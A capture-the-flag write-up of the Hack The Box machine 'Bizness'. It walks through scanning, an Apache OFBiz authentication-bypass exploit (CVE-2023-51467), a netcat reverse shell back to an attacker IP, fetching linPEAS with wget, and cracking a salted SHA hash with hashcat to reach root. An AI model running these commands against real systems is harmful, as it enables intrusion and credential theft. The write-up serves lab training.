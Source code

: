 ```yaml
---
description: Walkthrough of the HTB machine "Bizness"
cover: >-
  https://images.unsplash.com/photo-1496442226666-8d4d0e62e6e9?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxuZXclMjB5b3JrfGVufDB8fHx8MTcwOTM4NzQzOXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 👩‍💼 Bizness

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.11.252    

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 10:59 -03
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds

```

As we can see, HTTP and HTTPS are opened on the target. However, when we try to access it via a web browser, we're redirected to the domain "_bizness.htb_".

So, we need to put this domain into our /etc/hosts file:

```bash
echo '10.10.11.152 bizness.htb' | sudo tee -a /etc/hosts
```



## Enumeration

As we navigate through the website, we can start up a Directory Busting tool as well as a Subdomain Finder while we analyze the application.

There is a variety of tools we can use for Directory Busting, being: _gobuster, dirbuster, feroxbuster, FFUF_, etc.

In this case, we're going to Directory Bust using _Dirbuster_:

```bash
dirbuster -u https://bizness.htb/ -l /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt 

# -u = url
# -l = wordlist
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dirbuster found a login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Login page</p></figcaption></figure>



## Exploitation

Once we found a login page, we can try default credentials or brute-forcing this if we're able. However, first, let's try searching for an exploit for this OFBiz Apache page.

After some research, I found that [CVE-2023-51467](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) relates to an Authentication Bypass Vulnerability in Apache OFBiz. This CVE exploits a Server-Side Request Forgery (SSRF) vulnerability on the web application. We can download the exploit file and run it on our target:

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Exploit showing that target is vulnerable</p></figcaption></figure>

Now we can run commands on the target. So we can try to get a Reverse Shell using _Netcat_:

<pre class="language-bash"><code class="lang-bash"><strong>#First, we should open a port with Netcat
</strong><strong>
</strong><strong>rlwrap nc -nvlp 7777
</strong><strong>#rlwrap is used so we can have a better tty shell.
</strong><strong>
</strong><strong>#Next, we should execute the exploit to get the Reverse Shell
</strong><strong>python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.19 7777'
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Exploit first try</p></figcaption></figure>

However, as we can see here, we aren't getting any responses from the server despite providing commands through Netcat.

We can fix this by adding a `-c bash` to the command:&#x20;

```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.19 7777'

# -c = specifies shell commands to execute after a connection. In this case, we're specifying we want to use bash
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Exploit Successful</p></figcaption></figure>



### User Flag

From there, we just need to grab the user flag in the "_ofbiz_" home directory:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

Now, before we do anything else, let's get a full TTY Shell. The best way to do this is using this Python script:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

However, I'm going to leave you [this link](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) so you can find other ways to get a Full TTY Shell.



## Post Exploitation / Privilege Escalation

We can start by doing some basic enumeration. After that, if we aren't able to find anything from the get-go, we can upload "_linPEAS_" to the target by using the following commands:

<pre class="language-bash"><code class="lang-bash"><strong># On the ATTACKER machine, go to the folder where you have linPEAS (if you're in Kali Linux version 2024.1, it should be in your /opt/linpeas folder:
</strong><strong>
</strong><strong>cd /opt/linpeas
</strong><strong>
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>
</strong><strong># On the TARGET machine, go to the "tmp" folder, where we usually have write access and download the "linpeas.sh" file using wget:
</strong><strong>
</strong><strong>cd /tmp
</strong><strong>
</strong><strong>wget http://&#x3C;attacker ip>/linpeas.sh
</strong><strong>
</strong><strong># Next, we give the script permission to execute:
</strong><strong>
</strong><strong>chmod +x linpeas.sh
</strong><strong>
</strong><strong># Then, we run the script:
</strong><strong>
</strong><strong>./linpeas.sh
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>Transfering linPEAS to the target machine</p></figcaption></figure>

LinPEAS shows us that there's an executable our user has write access to:

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>LinPEAS shows an executable file our low level user has write access to</p></figcaption></figure>

However, we can only abuse this to create a backdoor. [This link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) should provide you with an explanation.

So we'll need to enumerate further.

If we continue our enumeration, we'll be able to find a password in the `c54d0.dat` file located in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>SALT part of the hash</p></figcaption></figure>

Now, before we crack this hash, [we'll need to decode the hash](https://www.linkedin.com/pulse/bizness-htb-walkthrough-laith-younes-laith-younes--jtqhe) using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\_'%7D,'/',false,false,false,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false\)From\_Base64\('A-Za-z0-9%2B/%3D',false,false\)To\_Hex\('None',0\)\&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ):

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Decoded hash</p></figcaption></figure>

So we can use "_hashcat_" with the hash mode of 120 to crack it:

```bash
hashcat -m 120 '<hash>:d' /usr/share/wordlists/rockyou.txt

# -m = mode
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Here's our cracked password</p></figcaption></figure>

###

### Root Flag

Now we just need to switch the user to root and grab the root flag:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>Root's Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
